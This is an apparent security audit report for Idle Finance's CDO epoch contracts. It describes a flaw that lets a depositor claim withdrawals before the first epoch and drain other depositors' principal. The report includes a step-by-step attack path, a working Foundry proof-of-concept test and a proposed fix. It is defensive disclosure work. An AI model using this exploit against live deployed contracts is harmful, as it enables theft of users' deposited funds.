 # Title
A single depositor can grief other depositors on the liquidity deposited for the first epoch

## Summary
After the CDO is initialized, deposits are allowed to provide the liquidity that will be used for the first epoch.
During this same period, before the first epoch is started, withdrawals are also allowed (they are enabled when the contract is initialized), this makes sense, a depositor could request a withdrawal that would be withdrawable as soon as the first epoch is over, this depositor may have intentions to only seed liquidity for a single epoch, point is, depositors are allowed to request a withdrawal.

The problem that allows the exploit is that the requested withdrawals can actually be claimed right away, the [`IdleCreditVault.claimWithdrawRequest()`](https://github.com/sherlock-audit/2024-12-idle-finance-stalinMacias/blob/main/idle-tranches/contracts/strategies/idle/IdleCreditVault.sol#L194-L196) relies on a condition that doesn't prevent withdrawal requests to be claimed before the first epoch ends.

```solidity
function claimWithdrawRequest(address _user) external returns (uint256 amount) {
  ...
  //@audit-issue => Before the first epoch is started, `epochEndDate is 0`.
    //@audit-issue => Because `epochEndDate == 0`, it does not matter if the lastWithdrawRequest was made on the current epoch. (`false && whatever` will always evaluate to false)
  //@audit-issue => This allows withdraw requests before the first epoch ends to be claimed without needing to wait for finalization of the first epoch
  if (IIdleCDOEpochVariant(idleCDO).epochEndDate() != 0 && (epochNumber <= lastWithdrawRequest[_user])) {
    revert NotAllowed();
  }
  ...
}
```

This flaw allows for the attack described on the Attack Path section to be possible, causing to all the depositor's liquidity to be stolen.

As demonstrated on the coded PoC provided on the PoC section, **a single depositor can continously deposit, request a withdraw and claim the requested withdraw before the first epoch starts.**
- **The requested withdraw claims the interests that would've been earnt during the first epoch, but, without needing to wait for the first epoch to end.**
  - That extra claimed amount comes from the deposits of the other depositors. Since all deposits are sent directly to the CreditVault, **all the extra liquidity taken by the grieffer comes from the liquidity of the other depositors.**

## Root Cause
Initilization of the CDO contract sets the contract's state in such a way that it allows depositors to claim normal requested withdrawals without needing to wait until the first epoch is over.

## Internal pre-conditions
No epoch has started on the CDO. Liquidity (deposits) to start the first epoch is being collected before starting the first epoch.

## External pre-conditions
None.

## Attack Path
1. Depositors provides liquidity on the CDO contract before the first epoch starts.
2. A depositor request a withdraw for all his deposits.
3. Depositor claims right away the requested withdraw.
4. The depositor receives his principal + the interest it would earn during the first epoch.
5. rinse && repeat step to continue draining the principal of the other depositors.

## Impact
Deposits made before the first epoch can be stolen

## PoC
Add the next PoC on the [`IdleCreditVault.t.sol`](https://github.com/sherlock-audit/2024-12-idle-finance-stalinMacias/blob/main/idle-tranches/test/foundry/IdleCreditVault.t.sol) test file:
```solidity
function test_depositsBeforFirstEpochStartsCanBeStolenPoC() external {
  uint256 depositAmount = 10000 * ONE_SCALE;
  IdleCDOEpochVariant CDO = IdleCDOEpochVariant(address(idleCDO));
  assertEq(CDO.paused(),false,"Pause is True");
  assertEq(CDO.epochEndDate(),0,"epochEndDate != 0");
  IdleCreditVault strategy = IdleCreditVault(CDO.strategy());
  assert(strategy.getApr() != 0);

  address underlyingToken = CDO.token();
  address TranchTokenAA = CDO.AATranche();

  address user1 = makeAddr("user1");
  address user2 = makeAddr("user2");
  address user3 = makeAddr("user3");

  {
    deal(underlyingToken, user1, depositAmount);
    deal(underlyingToken, user2, depositAmount);
    deal(underlyingToken, user3, depositAmount);

    vm.startPrank(user1);
    IERC20(underlyingToken).approve(address(CDO), type(uint256).max);
    CDO.depositAA(depositAmount);
    vm.stopPrank();

    vm.startPrank(user2);
    IERC20(underlyingToken).approve(address(CDO), type(uint256).max);
    CDO.depositAA(depositAmount);
    vm.stopPrank();

    vm.startPrank(user3);
    IERC20(underlyingToken).approve(address(CDO), type(uint256).max);
    CDO.depositAA(depositAmount);
    vm.stopPrank();
  }

  uint256 initialStrategyUnderlingBalance = 3 * depositAmount;
  uint256 strategyUnderlyingBalance_before = IERC20(underlyingToken).balanceOf(address(strategy));
  assertEq(strategyUnderlyingBalance_before, initialStrategyUnderlingBalance);

  //@audit-info => User3 has 0 underlying balance because he depositted everything on the CDO!
  uint256 user3UnderlyingBalance_before = IERC20(underlyingToken).balanceOf(address(user3));
  assertEq(user3UnderlyingBalance_before, 0);

  {
    vm.startPrank(user3);
    CDO.requestWithdraw(0,TranchTokenAA);
    CDO.claimWithdrawRequest();

    CDO.depositAA(IERC20(underlyingToken).balanceOf(address(user3)));
    CDO.requestWithdraw(0,TranchTokenAA);
    CDO.claimWithdrawRequest();

    CDO.depositAA(IERC20(underlyingToken).balanceOf(address(user3)));
    CDO.requestWithdraw(0,TranchTokenAA);
    CDO.claimWithdrawRequest();

    vm.stopPrank();
  }
  
  //@audit-info => User3 has more balance than what he deposited because when he claim the withdraw request, he claimed the interests as if the epoch would have ended!
  uint256 user3UnderlyingBalanc_after = IERC20(underlyingToken).balanceOf(address(user3));
  assertGt(user3UnderlyingBalanc_after, depositAmount);

  //@audit-info => CreditVault has less than the 2 deposits made by user1 and user2.
  //@audit-info => All the `interest` extracted by user3 came from the Principal of User1 and User2
  uint256 strategyUnderlyingBalance_after = IERC20(underlyingToken).balanceOf(address(strategy));
  assertLt(strategyUnderlyingBalance_after, 2 * depositAmount);
}
```

Run the previous PoC with the next command: `forge test --match-test test_depositsBeforFirstEpochStartsCanBeStolenPoC -vvvv`

## Mitigation
The most straight forward mitigation is to **initialize the `epochEndDate` to `block.timestamp` when the CDO is initialized.**
- This will make that the validation on the [`IdleCreditVault.claimWithdrawRequest()`](https://github.com/sherlock-audit/2024-12-idle-finance-stalinMacias/blob/main/idle-tranches/contracts/strategies/idle/IdleCreditVault.sol#L194-L196) to correctly prevent claiming withdrawal requests before the first epoch ends.

**[`IdleCDOEpochVariant._additionalInit()`](https://github.com/sherlock-audit/2024-12-idle-finance-stalinMacias/blob/main/idle-tranches/contracts/IdleCDOEpochVariant.sol#L67-L92)**
```diff
function _additionalInit() internal virtual override {
  ...

+ epochEndDate = block.timestamp;
}
```